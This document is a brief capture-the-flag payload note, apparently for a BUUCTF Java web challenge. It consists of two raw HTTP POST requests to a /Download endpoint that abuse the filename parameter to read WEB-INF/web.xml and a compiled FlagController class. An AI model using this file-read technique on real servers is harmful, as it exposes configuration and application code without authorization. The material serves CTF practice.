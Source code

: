 ### payload

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 26
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fweb.xml
```

```http
POST /Download HTTP/1.1
Host: 0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Length: 66
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://0778d5a0-7bbf-4b74-9401-d7259ecb8b71.node4.buuoj.cn/Download?filename=help.docx
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: UM_distinctid=17a7701d69cded-0a36b994c25fd8-6373264-384000-17a7701d69d9e0; JSESSIONID=58F821D5D809EB526A2D0EFAA010CD8B
Connection: close

filename=WEB-INF%2Fclasses%2Fcom%2Fwm%2Fctf%2FFlagController.class
```